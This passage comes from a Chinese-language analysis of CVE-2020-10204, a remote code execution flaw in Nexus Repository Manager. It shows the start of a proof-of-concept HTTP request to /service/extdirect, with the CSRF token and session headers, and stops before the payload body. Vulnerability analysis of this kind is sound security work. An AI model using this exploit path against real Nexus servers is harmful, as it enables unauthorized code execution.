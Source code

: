 可以看到总过有三处,以第一处Roles为例,

![](./resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId30.png)

可以找到有多处注解使用的地方,比如说新建用户/更新用户,构造Poc如下

    POST /service/extdirect HTTP/1.1
    Host: 127.0.0.1:8081
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    X-Nexus-UI: true
    NX-ANTI-CSRF-TOKEN: 0.029301195082771514
    Content-Type: application/json
    X-Requested-With: XMLHttpRequest
    Content-Length: 350
    Connection: close
    Referer: http://127.0.0.1:8081/
    Cookie: NX-ANTI-CSRF-TOKEN=0.029301195082771514; NXSESSIONID=7eaf0643-2707-445a-b17d-aedced6db8e5
